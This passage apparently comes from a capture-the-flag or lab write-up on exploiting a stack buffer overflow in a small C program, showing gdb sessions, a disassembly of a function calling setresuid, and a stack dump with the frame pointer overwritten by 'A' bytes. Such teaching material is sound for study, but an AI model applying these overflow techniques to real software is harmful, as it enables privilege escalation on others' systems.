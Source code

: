 Breakpoint 1, f (s=0xffffdb5d 'A' &lt;repeats 200 times&gt;...) at durka.c:11
(gdb) cont
Continuing.

Breakpoint 2, agonistic_heaven () at durka.c:17</code></pre>

<p>Emm, indeed we step in to <code>agnostic_heaven()</code> not bad. Let’s examine what the stack look like after the function finished.</p>

<pre class="prettyprint"><code class=" hljs perl">(gdb) disas
Dump of assembler code <span class="hljs-keyword">for</span> function agonistic_heaven:
=&gt; <span class="hljs-number">0x08048590</span> &lt;+<span class="hljs-number">0</span>&gt;:     <span class="hljs-keyword">push</span>   <span class="hljs-variable">%ebp</span>
   <span class="hljs-number">0x08048591</span> &lt;+<span class="hljs-number">1</span>&gt;:     mov    <span class="hljs-variable">%esp</span>,<span class="hljs-variable">%ebp</span>
   <span class="hljs-number">0x08048593</span> &lt;+<span class="hljs-number">3</span>&gt;:     call   <span class="hljs-number">0x80483e0</span> &lt;geteuid<span class="hljs-variable">@plt</span>&gt;
   <span class="hljs-number">0x08048598</span> &lt;+<span class="hljs-number">8</span>&gt;:     <span class="hljs-keyword">push</span>   <span class="hljs-variable">%eax</span>
   <span class="hljs-number">0x08048599</span> &lt;+<span class="hljs-number">9</span>&gt;:     <span class="hljs-keyword">push</span>   <span class="hljs-variable">%eax</span>
   <span class="hljs-number">0x0804859a</span> &lt;+<span class="hljs-number">10</span>&gt;:    <span class="hljs-keyword">push</span>   <span class="hljs-variable">%eax</span>
   <span class="hljs-number">0x0804859b</span> &lt;+<span class="hljs-number">11</span>&gt;:    call   <span class="hljs-number">0x80483b0</span> &lt;setresuid<span class="hljs-variable">@plt</span>&gt;
   <span class="hljs-number">0x080485a0</span> &lt;+<span class="hljs-number">16</span>&gt;:    add    <span class="hljs-variable">$0</span>xc,<span class="hljs-variable">%esp</span>
   <span class="hljs-number">0x080485a3</span> &lt;+<span class="hljs-number">19</span>&gt;:    leave
   <span class="hljs-number">0x080485a4</span> &lt;+<span class="hljs-number">20</span>&gt;:    ret
End of assembler <span class="hljs-keyword">dump</span>.
(gdb) <span class="hljs-keyword">until</span> <span class="hljs-variable">*0x080485a3</span>
<span class="hljs-number">0x080485a3</span> in agonistic_heaven () at durka.c:<span class="hljs-number">21</span>
(gdb) <span class="hljs-keyword">x</span>/<span class="hljs-number">32</span><span class="hljs-keyword">x</span> <span class="hljs-variable">$ebp</span>
<span class="hljs-number">0xffffd960</span>:     <span class="hljs-number">0x41414141</span>      <span class="hljs-number">0x080485b8</span>      <span class="hljs-number">0x08048600</span>      <span class="hljs-number">0x00000406</span>
<span class="hljs-number">0xffffd970</span>:     <span class="hljs-number">0x00000406</span>      <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0xf7e2a276</span>
<span class="hljs-number">0xffffd980</span>:     <span class="hljs-number">0x00000002</span>      <span class="hljs-number">0xffffda14</span>      <span class="hljs-number">0xffffda20</span>      <span class="hljs-number">0x00000000</span>
<span class="hljs-number">0xffffd990</span>:     <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0xf7fc5000</span>      <span class="hljs-number">0xf7ffdc0c</span>
<span class="hljs-number">0xffffd9a0</span>:     <span class="hljs-number">0xf7ffd000</span>      <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000002</span>      <span class="hljs-number">0xf7fc5000</span>
<span class="hljs-number">0xffffd9b0</span>:     <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x05846f03</span>      <span class="hljs-number">0x3f730313</span>      <span class="hljs-number">0x00000000</span>
<span class="hljs-number">0xffffd9c0</span>:     <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0x00000002</span>      <span class="hljs-number">0x0804847b</span>
<span class="hljs-number">0xffffd9d0</span>:     <span class="hljs-number">0x00000000</span>      <span class="hljs-number">0xf7fee720</span>      <span class="hljs-number">0xf7e2a189</span>      <span class="hljs-number">0xf7ffd000</span>
</code></pre>
